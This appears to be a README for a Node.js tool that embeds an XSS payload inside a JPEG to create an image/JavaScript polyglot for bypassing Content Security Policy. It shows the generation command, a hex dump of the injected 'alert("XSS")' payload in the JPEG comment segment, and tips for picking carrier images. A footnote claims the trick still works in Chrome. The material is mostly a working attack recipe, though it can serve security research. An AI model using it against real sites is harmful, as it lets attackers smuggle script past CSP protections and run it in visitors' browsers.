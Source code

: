 Tool inspired by[^1]: https://portswigger.net/research/bypassing-csp-using-polyglot-jpegs

This automates the process. Use any[^2] jpg file and add a XSS payload to it:
```bash
nodejs jpg-polyglot-generate.js file.jpg file-xss.jpg 'alert("XSS");'
```

Optionally check output with:
```bash
xxd file-xss.jpg | grep -C5 aler
00002ee0: 0000 0000 0000 0000 0000 0000 0000 0000  ................
00002ef0: 0000 0000 0000 0000 0000 0000 0000 0000  ................
00002f00: 0000 0000 0000 0000 0000 0000 0000 0000  ................
00002f10: 0000 0000 0000 0000 0000 0000 0000 0000  ................
00002f20: 0000 0000 0000 0000 0000 0000 0000 fffe  ................
00002f30: 0014 2a2f 3d61 6c65 7274 2822 5853 5322  ..*/=alert("XSS"
00002f40: 293b 2f2a ffe1 172a 4578 6966 0000 4d4d  );/*...*Exif..MM
00002f50: 002a 0000 0008 0007 0112 0003 0000 0001  .*..............
00002f60: 0001 0000 011a 0005 0000 0001 0000 0062  ...............b
00002f70: 011b 0005 0000 0001 0000 006a 0128 0003  ...........j.(..
00002f80: 0000 0001 0002 0000 0131 0002 0000 001c  .........1......
```
[^1]: This and many other articles referencing this one mention: __Mozilla are fixing this in Firefox 51.__, however everyone forgets to mention this still works in Chrome and other browsers!
[^2]: Make sure it does not contain the sequence 2a2f. Depending on the location in the file the exploit might stil work, but the image will be broken and won't look pretty:
`xxd file.jpg | grep "2a2f"`. If this command has any output find another jpg file, otherwise continue.
